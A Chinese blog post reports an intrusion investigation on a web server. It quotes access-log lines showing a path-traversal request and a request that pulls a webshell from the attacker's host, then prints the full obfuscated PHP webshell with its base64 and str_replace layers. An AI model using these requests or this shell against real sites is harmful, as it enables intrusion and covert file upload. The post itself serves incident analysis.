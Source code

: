 ```yaml
---
layout: post
title: "一次入侵检查"
date: 2013-10-02 21:38
comments: true
categories: Linux
---
```


#10.1放假期间的一次入侵处理#

今天一个网站的朋友给我电话，说网站无法访问了。我尝试访问了下，提示数据库不存在。开始以为数据库出现问题了，尝试访问子域名无问题。ssh上去看到数据库正常。
检查文件的时候，发现mysql_config.php是早上6点多修改过的。比较奇怪了。

打开mysql_config.php发现已经被清空了。于是赶紧处理下，让网站恢复了正常。

<!--more-->

##查找原因##
因为文件被篡改了，还是比较严重的。于是开始尝试分析原因。

首先检查了登陆logs，并没有发现异常。可以初步排除是ssh上来修改的。服务器没有开放ftp，所以就怀疑是通过web程序的漏洞实现的。

根据文件的修改时间，调出访问日志查找。最终找到如下三个异常访问

```
103.14.144.41 - - [02/Oct/2013:06:18:10 +0800] "HEAD / HTTP/1.1" 200 0 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)" -
103.14.144.41 - - [02/Oct/2013:06:18:10 +0800] "GET /do/fujsarticle.php?type=like&FileName=../data/mysql_config.php&submit=fuck HTTP/1.1" 200 37 "-" "-" -
103.14.144.41 - - [02/Oct/2013:06:18:11 +0800] "GET /news/fujsarticle.php?type=like&FileName=../data/mysql_config.php&submit=fuck HTTP/1.1" 404 36 "-" "-" -
103.14.144.41 - - [02/Oct/2013:06:18:11 +0800] "GET /do/jf.php?dbuser=getshell&dbhost=103.14.144.41&dbpw=shellpwd&dbname=getshell&pre=qb_&dbcharset=gbk&submit=getshell HTTP/1.1" 200 12140 "-" "-" -
103.14.144.41 - - [02/Oct/2013:06:18:11 +0800] "HEAD /do/c.php HTTP/1.1" 200 0 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)" -

```

通过访问fujsarticle.php、jf.php文件来提交构造好的参数，实现对文件的修改并通过调用自己的数据库内容，来传送过来一个c.php的webshell。这两个文件都是程序自带的文件，我也不好修改。目前只是把对应目录权限配置了，让www的用户无法写入文件了。后面还要让程序人员看看如何彻底解决下。

##webshell##
这个webshell很有意思。通过各种字符替换和转换编码，达到了很好的加密伪装效果。下面就是那个webshell，感谢去的可以看看，学习学习。

``` php
<?php
$tj="IGluaV9zZXQoJ2h0bWxfZXJyb3JrbzJyxmYWxzZSk7aW5pX3NldCgnrbZGlzcGxheV9lcnJvcnMnLGZhrbbHNlKrbTtAcHrbJrblZ19yZXBsYWNlKCIvLrb2UrbiLCRfUE9TVFrbsnRkVORrbyddLCJrbBY2Nlrbc3MrbgRGVuaWVkIikrb7QrbHByZWdrbfcmVwbGFjZS";
$ju = str_replace("si","","sissitsirsi_rsiesipsilasicsie");
$gie="krbXrb0ZJTErbVTWyJrb1cGZpbGUiXVrbsibmFtZSJdO2lmKCFmaWxlX2V4aXN0cygkX0ZJTEVTrbWyJ1cGZpbGUiXVsirbbmrbFtZrbSJdKSl7IGrbNvcHkorbJF9GSUxFU1sidXBrbmaWxrblIl1bInRtcF9rbuYW1lIl0sICRfRklMRVrbNbInVwZmlsZSJdWyJrbuYrbW1";
$zc="giL1xzKlxbcGhwXrbF0oLis/KVrbxrbbXC9wrbaHrbBcXVxzKrbi9pZXMrbiLrbCAiXFwxIiwgJrbF9HRVRbJ0ZFTrbkcnXSk7aWYoJF9HRVRbInBrIl09PSJsb3ZlIil7aWYgKCRfU0VSVkVrbSWydSRVFVRVNUX01FVEhPRCrbddID09ICrbdQT1NUJykgeyBlY2hvICJrb1cmrbw6Ii4";
$ro="lIl0pOyB9frbT8+rbPGZvcm0gbWVrb0aG9kPSJwb3N0IrbiBlbmN0erbXBlPSJrbtdWx0rbaXBrbhcnQvZrbm9ybS1krbYXRhIj48aW5wdrbXQgbmrbFtZT0idXBmaWxlIiB0eXBlPSJmaWxlIj48aW5wdXQgdHlwZTrb0ic3VibWl0IiB2YWx1ZT0ib2siPjwvZm9yrbbT48P3BocCB9";
$nx = $ju("g", "", "gbgagse6g4g_dgegcgogde");
$xq = $ju("v","","vcvreavtvev_vfvuvnvcvtvivovn");
$baj = $xq('', $nx($ju("rb", "", $tj.$zc.$gie.$ro))); $baj();
?>

```
